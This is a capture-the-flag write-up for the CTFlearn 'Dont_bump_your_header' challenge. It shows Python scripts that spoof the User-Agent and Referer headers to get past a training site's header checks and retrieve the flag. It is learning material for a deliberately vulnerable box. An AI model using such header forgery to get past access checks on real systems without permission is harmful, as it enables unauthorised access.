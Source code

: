# Writeup for [Dont\_bump\_your\_header](https://ctflearn.com/challenge/109) Box

When we open the provided link, we get an error message...  
![](./img/1.jpg)  

This speaks of a User-Agent which is part of an HTTP Header. When we take a look at the source code, we can clearly see a comment that we can potentially use for the User-Agent.  
We could use the curl command to spoof our User-Agent but I feel like creating an exploit script for this box to sharpen my programming skills. I am going to use [Python](python.org) and the built-in requests module.  

First of all, lets create a basic script to do a GET request on the website.  
```python
#!/usr/bin/env python3

import requests

url = 'http://165.227.106.113/header.php'

s = requests.get(url)

print(s.text)
```  

When we run this script, we should be able to see the same error message we got when accessing the website. Since we got that comment from the source code, we should try to use that as our User-Agent.  
```python
#!/usr/bin/env python3

import requests

url = 'http://165.227.106.113/header.php'
user_agent = 'Sup3rS3cr3tAg3nt'

headers = {
        'User-Agent' : user_agent,
        }

s = requests.get(url,headers=headers)

print(s.text)
```  

When we run this script, we get another error...  
![](./img/2.jpg)  
I got super confused and tried to manipulate the User-Agent but it seemed that it works. So what was the issue? When you read the error message carefully, it says that we did not come from `awesomesauce.com`. There is an entry called 'Referer' on an HTTP Header that denotes where the request came from, so we can set this Referer entry to be `awesomesauce.com`.  
This is what the final script should look like  

```python
#!/usr/bin/env python3

import requests

url = 'http://165.227.106.113/header.php'

user_agent = 'Sup3rS3cr3tAg3nt'
referer = 'awesomesauce.com'

headers = {
        'User-Agent' : user_agent,
        'Referer'   : referer
        }

s = requests.get(url,headers=headers)

print(s.text)
```  

Run the script and get that flag.
